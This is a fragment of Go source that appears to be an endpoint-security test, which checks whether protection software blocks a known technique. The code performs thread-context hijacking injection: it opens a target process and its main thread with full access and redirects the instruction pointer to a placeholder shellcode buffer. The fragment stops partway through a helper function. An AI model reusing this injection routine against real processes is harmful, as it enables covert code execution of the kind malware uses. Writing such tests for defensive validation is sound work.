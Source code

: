 ```go
	// Get handle to the target process
	procHandle, err := windows.OpenProcess(windows.PROCESS_ALL_ACCESS, false, uint32(cmd.Process.Pid))
	if err != nil {
		Endpoint.Say(fmt.Sprintf("[-] Failed to get process handle: %s", err))
		Endpoint.Stop(1) // ERROR
	}

	// main thread of target proc
	threadHandle, err := getMainThreadHandle(cmd.Process.Pid)
	if err != nil {
		Endpoint.Say(fmt.Sprintf("[-] Failed to get main thread handle: %s", err))
		Endpoint.Stop(1) // ERROR
	}

	// manipulating thread context
	var context windows.Context
	context.ContextFlags = windows.CONTEXT_FULL
	err = windows.GetThreadContext(threadHandle, &context)
	if err != nil {
		Endpoint.Say(fmt.Sprintf("[-] Failed to get thread context: %s", err))
		Endpoint.Stop(1) // ERROR
	}

	// change thread context: change instruction pointer to shellcode address
	context.Rip = uintptr(unsafe.Pointer(&dummyShellcode[0]))
	err = windows.SetThreadContext(threadHandle, &context)
	if err != nil {
		Endpoint.Say(fmt.Sprintf("[-] Failed to set thread context: %s", err))
		Endpoint.Stop(1) // ERROR
	}

	Endpoint.Say("[+] Remote thread context manipulation executed successfully")
	Endpoint.Stop(101) // UNPROTECTED: Malicious behavior not blocked
}

func getMainThreadHandle(pid int) (windows.Handle, error) {
	var snapshot windows.Handle
	var entry windows.ThreadEntry32
	// take snapshot of specified processes
	// 
	snapshot, err := windows.CreateToolhelp32Snapshot(windows.TH32CS_SNAPTHREAD, 0)
	if err != nil {
		return 0, err
	}
	defer windows.CloseHandle(snapshot)

	entry.Size = uint32(unsafe.Sizeof(entry))
	// retrieve info about first thread of process from snapshot
	err = windows.Thread32First(snapshot, &entry)
	if err != nil {
		return 0, err
	}

	for {
		if entry.OwnerProcessID == uint32(pid) {
			threadHandle, err := windows.OpenThread(windows.THREAD_ALL_ACCESS, false, entry.ThreadID)
			if err != nil {
				return 0, err
			}
			return threadHandle, nil
		}
```